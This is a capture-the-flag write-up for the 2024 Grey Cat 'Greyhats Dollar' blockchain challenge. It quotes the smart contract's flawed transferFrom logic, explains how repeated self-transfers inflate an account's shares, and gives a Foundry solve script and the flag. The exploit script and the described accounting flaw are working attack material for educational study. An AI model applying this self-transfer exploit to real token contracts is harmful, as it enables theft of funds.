 ```yaml
---
title: Blockchain - Greyhats Dollar
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - self transfer
---
```


## Description

Worried about inflation? Introducing GreyHats Dollar (GHD), the world's first currency with deflation built-in! Backed by GREY tokens, GHD will automatically deflate at a rate of 3% every year.

> nc challs.nusgreyhats.org 30201

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/greyhats-dollar)

## Solution

- To solve the challenge, the player needs to obtain more than 50,000 GHD. Initially, we can exchange 1000 GREY for GHD, which is recorded in the form of share. Over time, the same proportion of shares will correspond to a reduced amount of GHD due to deflation

    ```js
    /**
     * @notice Updates the conversion rate between GHD and the underlying asset.
     */
    modifier update {
        conversionRate = _conversionRate();
        lastUpdated = block.timestamp;
        _;
    }

    function balanceOf(address user) public view returns (uint256) {
        return _sharesToGHD(shares[user], _conversionRate(), false);
    }
    ```

- Interestingly, during the token transfer, the data used to update account shares is calculated based on the cached old data. Since the data of `to` account is updated after `from` account, if a transfer is made to oneself, the account shares will increase :D

    ```js
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public update returns (bool) {
        if (from != msg.sender) allowance[from][msg.sender] -= amount;

        uint256 _shares = _GHDToShares(amount, conversionRate, false);
        uint256 fromShares = shares[from] - _shares;
        uint256 toShares = shares[to] + _shares;
        
        ...

        shares[from] = fromShares;
        shares[to] = toShares;

        emit Transfer(from, to, amount);

        return true;
    }
    ```

- We can continuously double the existing share through self-transfer

### Exploitation

```js
contract Solve is Script {
    function run() public {
        Setup setup = Setup(vm.envAddress("INSTANCE"));
        uint priv = vm.envUint("PRIV");

        GHD ghd = setup.ghd();
        GREY grey = setup.grey();

        vm.startBroadcast(priv);
        address user = vm.addr(priv);
        setup.claim();
        grey.approve(address(ghd), 1000 ether);
        ghd.mint(1000 ether);
        for(uint i; i < 50; i++) {
            ghd.transfer(user, 1000 ether);
        }
        require(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> grey{self_transfer_go_brrr_9e8284917b42282d}
